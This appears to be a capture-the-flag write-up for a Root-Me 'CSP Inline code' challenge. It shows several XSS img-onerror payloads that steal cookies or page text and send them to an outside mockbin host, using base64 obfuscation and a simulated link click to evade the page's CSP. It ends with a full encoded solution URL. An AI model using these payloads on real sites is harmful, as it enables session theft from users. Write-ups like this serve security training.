 # CSP Inline code

## Initial attempt

```javascript
<img src="#" onerror="(() => {window.open('https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io')})()" />
```

```javascript
<img src="#" onerror="(() => {var link='https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/'+document.cookie; var i=document.createElement('img'); i.src=link; document.getElementsByTagName('p')[0].appendChild(i);})()" />
```

Problem: string `https` is not allowed in anywhere in the payload it seems

## Base64 encoding the link

```javascript
<img src="#" onerror="(() => {var link=atob('aHR0cHM6Ly9iNWUwMmQ2MTNjYTQ0YjczODRlMDI5MDEyNWExNDQ4ZS5hcGkubW9ja2Jpbi5pby8K')+document.cookie; var i=document.createElement('img'); i.src = link; document.getElementsByTagName('p')[0].appendChild(i);})()" />
```

Problem: violates `img-src: 'self'`

## Simulating a click on anchor

```javascript
<img src="#" onerror="(() => {var p = document.getElementsByTagName('p')[0]; var link=atob('aHR0cHM6Ly9iNWUwMmQ2MTNjYTQ0YjczODRlMDI5MDEyNWExNDQ4ZS5hcGkubW9ja2Jpbi5pby8K')+'?p='+p.innerText; var i=document.createElement('a'); i.href=link; p.appendChild(i); i.click()})()" />
```

Solution payload
```text
http://challenge01.root-me.org:58008/page?user=%3Cimg+src%3D%22%23%22+onerror%3D%22%28%28%29+%3D%3E+%7Bvar+p+%3D+document.getElementsByTagName%28%27p%27%29%5B0%5D%3B+var+link%3Datob%28%27aHR0cHM6Ly9iNWUwMmQ2MTNjYTQ0YjczODRlMDI5MDEyNWExNDQ4ZS5hcGkubW9ja2Jpbi5pby8K%27%29%2B%27%3Fp%3D%27%2Bp.innerText%3B+var+i%3Ddocument.createElement%28%27a%27%29%3B+i.href%3Dlink%3B+p.appendChild%28i%29%3B+i.click%28%29%7D%29%28%29%22+%2F%3E
```


